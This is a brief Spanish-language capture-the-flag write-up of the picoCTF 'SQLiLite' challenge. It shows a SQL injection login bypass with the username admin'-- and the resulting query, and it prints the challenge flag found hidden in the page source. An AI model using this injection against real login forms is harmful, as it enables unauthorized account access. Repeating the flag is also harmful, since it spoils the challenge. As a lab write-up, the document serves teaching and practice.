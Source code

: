 #  - SQLiLite

## Descripcion:
* Can you login to this website?
Additional details will be available after launching your challenge instance.
* admin is the user you want to login as.

## Solucion
como el reto menciona sqllite y nos encontremos un loging en la pagina hacemos una inyeccion de prueba.
![[Pasted image 20251005194033.png]]
![[Pasted image 20251005194048.png]]
con esas respuestas nos confirma la vulnerabilidad  y logramos acceder al no ver mas pistas revisamos el codigo fuente.
```
<pre>username: admin&#039;--
password: 1234
SQL query: SELECT * FROM users WHERE name=&#039;admin&#039;--&#039; AND password=&#039;1234&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}</p>

```
y asi encontramos  la bandera
## Referencias: